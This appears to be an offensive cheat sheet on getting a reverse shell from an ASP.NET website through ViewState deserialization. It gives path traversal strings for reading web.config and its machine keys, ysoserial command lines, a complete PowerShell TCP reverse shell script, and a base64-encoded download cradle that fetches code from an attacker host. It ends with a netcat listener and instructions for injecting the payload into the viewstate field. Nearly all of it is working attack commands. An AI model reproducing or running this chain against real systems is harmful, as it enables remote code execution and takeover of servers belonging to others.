# ASP.NET  ( Reverse shell )
Dotnet is used in the windows compatible website server. formate like  ".aspx" 
# steps
1. Find the web.config file in website
2. Grap the info like Key and Algo used
3. Generate a ysoserial payload
4. Create a web cradle  and run it
5. Back connection to us

# Find the web.config file in websites
```language
= ../../web.config
= ..././web.config    # some time this dots are skiped
```
# Read the web.config file
```langauge
# We Need this Info:-
1. --validationalg=""
2. --validationkey=""
3. --decryptionalg=""
4. --decryptionkey=""
```
# Generate a Ysoserial Payload
Here is the Payload Example:-
```language
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/Home/Download" --apppath="/"  --decryptionalg="AES"  --decryptionkey="xyz" --validationkey="xyz" --validationalg="HMACSHA256" -c "whoami"
```
# Create a Rev.ps1 file
Change the ip address
```language
$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
# Create a cradle
```language
nano cradle
cradle content:-  IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

cat cradle | iconv -t utf-16le | base64 -w0; echo
python3 -m http.server 8000
```
# Generate a Reverse Shell
```language
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/Home/Download" --apppath="/"  --decryptionalg="AES"  --decryptionkey="xyz" --validationkey="xyz" --validationalg="HMACSHA256" -c "powershell -enc <encoded code here>"
```
# Start a listner
```language
rlwrap nc -lvnp 9001
```
# Injection the payload 
```language
Capture the Request paste the payload in the   " viewstate " and Execute it .
```
